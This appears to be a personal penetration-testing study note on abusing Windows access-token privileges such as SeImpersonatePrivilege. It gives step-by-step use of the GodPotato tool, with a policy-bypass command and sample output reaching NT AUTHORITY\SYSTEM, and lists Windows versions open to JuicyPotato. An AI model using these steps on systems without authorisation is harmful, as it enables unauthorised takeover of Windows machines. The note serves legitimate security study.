


INIT
# Abusing Access Tokens
[Access Tokens](../../../../OSCP/windows-privesc/security-mechanisms/access-tokens.md) are tokens used by the [Windows](../../../../computers/windows/README.md) OS to assign security, privilege and session information to a user when the log on. Regular users are assigned a single access token while Administrators are assigned *two access tokens* (one which has regular permissions and one with admin permissions).

The processes started by the user or on their behalf while they're logged in *inherit their access token*. For an admin user, processes inherit their regular token by default, and will only inherit their admin token *if the user explicitly asks it to* (via "Run as Administrator" for example).

Access tokens can be abused for [privesc](./README.md) because you can use them *to impersonate other users*. 
## Abusable Privileges
### `SeImpersonatePrivilege`
This privilege is the "impersonate a client after authentication" user right and it allows the user to *impersonate any token*, but does not allow the holder to create tokens.

By default, members of the `Local Administrators` group and *all local Service accounts* are assigned this privilege. As long as the target account *has authenticated* users w/ this privilege can use it to impersonate that account.

> -Juggernaut Sec
#### Abusing w/ Juicy Potato
[JuicyPotato](https://juggernaut-sec.com/seimpersonateprivilege/) is tool which abuses the `SeImpersonatePrivilege` privilege by tricking the `NT AUTHORITY\SYSTEM` account into authenticating via [NTLM](../../../../networking/protocols/NTLM.md) to an endpoint *the attacker controls*. 

During the authentication, JuicyPotato will man-in-the-middle the traffic (NTLM Relay) to negotiate *a security token for `NT AUTHORITY\SYSTEM`*. Once the token is negotiated, we can then impersonate it.

Windows versions vulnerable to this attack include:
- Windows 7 Enterprise
- Windows 8.1 Enterprise
- Windows 10 Enterprise
- Windows 10 Professional
- Windows Server 2008 R2 Enterprise
- Windows Server 2012 Datacenter
- Windows Server 2016 Standard
#### Abusing w/ GodPotato
[GodPotato](https://github.com/BeichenDream/GodPotato) works on *Windows 2012 - Windows 2022*  systems and is normally used when you've compromised a WEB or database services account (which are usually has `SeImpersonatePrivilege`).

GodPotato will boost your privilege from a service account to `NT AUTHORITY\SYSTEM`. GodPotato is a good tool because it works *on almost all Windows version* since it uses a technique that other Potatoes don't.

According to [the maker](https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71), GodPotato abuses flaws in the `rpcss` service which is responsible for making *remote procedure calls*.

##### STEPS
1. Make sure you get the right executable. Usually, [GodPotato-NET4](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe) works for me
2. Infiltrate it onto your box
3. Set execution policy w/ `powershell -ep bypass`
4. Run with test command `./GodPotato.exe -cmd 'cmd /c whoami'` should return:
```powershell
PS C:\Windows\ServiceProfiles\MSSQL$SQLEXPRESS> ./gp2.exe -cmd 'cmd /c whoami'
[*] CombaseModule: 0x140706512961536
[*] DispatchTable: 0x140706515548488
[*] UseProtseqFunction: 0x140706514843200
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\729ee178-3923-44cd-bc86-41a3b3f36942\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00003002-0d7c-ffff-76c7-f6b446467beb
[*] DCOM obj OXID: 0xd8beb9e789d76e45
[*] DCOM obj OID: 0xcc90150dddaf4482
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 940 Token:0x748  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5156
nt authority\system         # <---------------------------------------------------
```
### `SeAssignPrimaryPrivilege`
This privilege is *very similar to `SeImpersonatePrivilege`* and will use the same method to get a privileged token. In addition to impersonating any token, this privilege also allows the user to *assign a [Primary Token](../../../../OSCP/windows-privesc/security-mechanisms/access-tokens.md#Primary%20Tokens)* to a new or suspended process.

You can use this token to *create a new process* (using `CreateProcessAsUser`) or create a *suspended process* and then set the token to it.
### `SeTcbPrivilege`
Users who have this privilege enabled can use `KERB_S4U_LOGON` to get an [Impersonation Token](../../../../OSCP/windows-privesc/security-mechanisms/access-tokens.md#Impersonation%20Tokens) *without knowing the credentials*, add an *arbitrary group* (like Administrators) to the token, set the *[Integrity Level](../../../../OSCP/windows-privesc/security-mechanisms/MIC.md#Integrity%20Levels)* of the token, and assign the token *to the current thread*.

> [!Resources]
> - [HackTricks: Abusing Tokens for Privesc](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)
> - [JuggernautSec: SeImpersonatePrivilege](https://juggernaut-sec.com/seimpersonateprivilege/)
> - [JuicyPotato README](https://juggernaut-sec.com/seimpersonateprivilege/)
> - [GodPotato GitHub](https://github.com/BeichenDream/GodPotato)
> - [GodPotato Medium Article](https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71)

> [!Related]
> - [Windows Access Tokens](../../../../OSCP/windows-privesc/security-mechanisms/access-tokens.md)